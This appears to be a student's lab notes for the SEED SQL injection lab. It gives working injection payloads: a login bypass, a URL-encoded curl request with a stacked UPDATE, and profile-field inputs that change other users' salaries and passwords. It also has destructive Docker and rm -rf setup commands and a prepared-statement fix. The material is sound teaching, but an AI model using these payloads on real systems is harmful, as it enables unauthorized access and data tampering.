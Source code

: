 # SETUP
edit hosts
```bash
sudo gedit /etc/hosts &>/dev/null &
```

to remove previous containers
```bash
docker rm -vf $(docker ps -a -q)
```

to remove all images
```bash
docker rmi -f $(docker images -a -q)
```

```bash
dcbuild
dcup
```
open a new tab of cmd
```bash
dockps
```

to clear database
```bash
sudo rm -rf mysql_data
```


## Open a new tab of cmd
open mysql container
```bash
docksh 36b1
```

# TASK 1

Inside the MySQL container
```bash
mysql -u root -pdees
mysql> use sqllab_users;
mysql> show tables;
# to show details
select * from credential;
```

# TASK 2
## Task 2.1
username : <b>Admin' #</b>

## Task 2.2
to login for alice:
<br>
curl 'www.seed-server.com/unsafe_home.php?username=alice&Password=seedalice'

for the task:<br>
'(single quote) == %27 <br>
space == %20<br>
\# (hash)== %23<br>
```bash
curl 'www.seed-server.com/unsafe_home.php?username=Admin%27%20%23'
```

## Task 2.3
to encode: https://www.urlencoder.org/

```bash
cd image_www/Code/

sudo gedit unsafe_home.php &>/dev/null &
```

<br>
change in unsafe_home.php and 
update query to multi_query
<br>

```bash
docker cp unsafe_home.php 8f4c94620032:/var/www/SQL_Injection/
```
<br>

update credential set name='Teed' where id=5;

```bash
curl 'www.seed-server.com/unsafe_home.php?username=alice%27%20%3B%20update%20credential%20set%20name%3D%27Teed%27%20where%20id%3D5%3B%23'
```

check the result:

```sql
select * from credential;
```

<b>to see the result in web page 
we need to change the multi_query to query again
</b>
<br>

# Task 3
unsafe_edit_backend.php

```bash
cd image_www/Code/

sudo gedit unsafe_edit_backend.php &>/dev/null &
```

copy

```bash
docker cp unsafe_edit_backend.php 8f4c94620032:/var/www/SQL_Injection/
```
## Task 3.1
to change salary ==> in Edit Profile of ALice in NickName field type==>
```
Alice', salary = 30000;#
```

## Task 3.2

to set salary=1 of Boby
```
Alice ', salary = 1 where name = 'Boby';#
```

## Task 3.3
to set password = 1234 of Boby
```
Alice ', password = sha1('1234') where name = 'Boby';#
```

# Task 4

```sql
$stmt = $conn->prepare("SELECT name, local, gender
FROM USER_TABLE
WHERE id = ? and password = ? ");
$stmt->bind_param("is", $id, $pwd);
$stmt->execute();
$stmt->bind_result($bind_name, $bind_local, $bind_gender);
$stmt->fetch();
```

write this in unsafe.php
```sql
$result = $conn->prepare("SELECT id, name, eid, salary, ssn
			FROM credential
			WHERE name = ? and Password = ? ");
$result->bind_param("ss", $input_uname, $hashed_pwd);
$result->execute();
$result->bind_result($id, $name, $eid, $salary, $ssn);
$result->fetch();
```

then copy
```bash
docker cp unsafe.php 8f4c94620032:/var/www/SQL_Injection/defense/
```






